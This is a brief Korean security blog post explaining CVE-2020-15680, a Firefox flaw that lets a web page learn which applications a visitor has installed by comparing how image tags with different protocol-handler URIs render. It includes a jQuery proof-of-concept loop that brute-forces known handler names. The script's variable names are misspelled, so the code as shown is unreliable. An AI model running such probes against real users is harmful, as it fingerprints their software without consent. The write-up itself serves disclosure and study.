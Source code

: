 ```yaml
---

title: "[하루한줄] CVE-2020-15680 : protocol handler infomation disclosure"
author: Fabu1ous

tags: [Fabu1ous, information disclosure, cve]

categories: [1day1line]

date: 2020-12-05 18:00:00

cc: true

index_img: /img/1day1line.png
---
```




## URL

[leaking browser url/protocol handler](https://www.fortinet.com/blog/threat-research/leaking-browser-url-protocol-handlers?utm_source=feedburner&utm_medium=feed&utm_campaign=Feed%3A+fortinet%2Fblog%2Fthreat-research+%28Fortinet+Threat+Research+Blog%29)

## Target

Firebox 78.01



## Explain

Firefox에서 protocol handler를 이용한 information disclosure 취약점이 발견되었습니다. 응용프로그램이 자신만의 URI scheme을 등록하고 그것을 통해 프로세스를 실행할 수 있게 해주는 것이 Protocol Handler입니다. 브라우저가 "웹사이트에서 이 어플리케이션을 열려고 합니다."라는 알림을 띄운다면 Protocol Handler URI를 사용해 프로세스를 실행한 것 입니다.  

Firefox가 이미지 태그의 소스를 렌더링 할 때, protocol handler의 존재 여부에 따라 렌더링 결과가 다릅니다. 해커는 이점을 악용해 원격으로 victim에 설치된 프로그램 리스트를 알 수 있습니다.

```html
<img src="존재하는ProtocolHandler://abc">
```

victim에 존재하는 protocol handler를 이미지 src에 넣으면 broken image에 대한 기본 설정에 따라 Element의 size가 24x24로 렌더링 됩니다.

```HTML
<img src="존재하지않는ProtocolHandler://abc">
```

반면, 존재하지 않는 protocol handler를 이미지 src에 넣으면 Element의 size는 0x0으로 설정됩니다.



따라서 해커는 간단한 JS script로 Element의 width를 검사해 Protocol Handler의 존재 여부를 확인하는 brute force 공격을 할 수 있습니다.

```javascript
known_handlers = [
  ...
]
  
for (var i = knwon_handers.length -1; i>=0; i--){
  handler_id = 'handler_' + i
  $('body').append('<img id ="' + handler_id + '"src="'+known_handers[i]
  + '://192.168.133.142/"></img>')
  if($('#' + handler_id).css('width') == "24px"){
    $('<p>Handler ' + known_handlers[i] + 'Exists</p>').appendTo('#logbox');
  }
  else{
    $('<p>Hander ' + known_handers[i] + 'Does not exists</p>').appendTo('#logbox');
  }
  
  $('#' + hander_id).remove()
}
```






